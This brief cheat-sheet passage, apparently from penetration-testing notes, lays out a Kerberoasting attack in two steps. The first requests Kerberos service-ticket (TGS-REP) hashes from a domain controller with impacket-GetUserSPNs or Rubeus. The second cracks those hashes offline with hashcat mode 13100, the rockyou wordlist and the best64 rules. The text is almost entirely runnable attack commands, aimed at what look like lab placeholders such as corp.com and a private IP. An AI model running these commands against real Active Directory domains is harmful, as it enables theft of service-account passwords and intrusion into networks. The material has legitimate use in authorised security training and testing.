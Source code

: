 1.  **Get TGS-REP hash**

```Impacket
sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 -outputfile kerberoast.hash corp.com/pete  
```
  

```Rubeus
.\Rubeus.exe kerberoast /outfile:kerberoast.hash
```

2. **Crack Hash**

```bash
sudo hashcat -m 13100 kerberoast.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```